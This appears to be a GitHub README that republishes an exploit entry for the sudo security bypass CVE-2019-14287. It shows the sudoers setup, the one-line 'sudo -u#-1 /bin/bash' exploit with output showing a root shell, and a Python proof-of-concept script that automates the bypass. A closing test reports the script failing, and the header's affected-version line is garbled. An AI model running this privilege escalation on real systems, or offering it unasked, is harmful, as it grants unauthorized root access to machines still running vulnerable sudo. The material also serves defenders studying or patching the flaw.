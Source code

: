 ![](https://github.com/nu11secur1ty/Linux_hardening_and_security/blob/master/Sudo/logo/sudo_logo.png)
```
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287
```
----------------------------------------------------------------------------------------

- Check for the user sudo permissions
```bash
sudo -l 
```
- User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


- So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
```
root    ALL=(ALL:ALL) ALL
hacker ALL=(ALL,!root) /bin/bash
```
--------------------------------------------------------------------------------

- With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 
```bash
sudo -u#-1 /bin/bash
```
Example : 
```bash
hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#
```
- Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
`-u#-1` returns as `0` which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

--------------------------------------------------------------------------------------

How to use :
python3 sudo_exploit.py

```python
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
----------------------------------------------------------------------------------------------------
- Testing,  it is not working
```bash
$ python3 sudo.py
```
```
Enter current username :kurec
```
sh: 1: cannot create priv: Permission denied
sh: 1: cannot create binary: Permission denied
Lets hope it works
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...

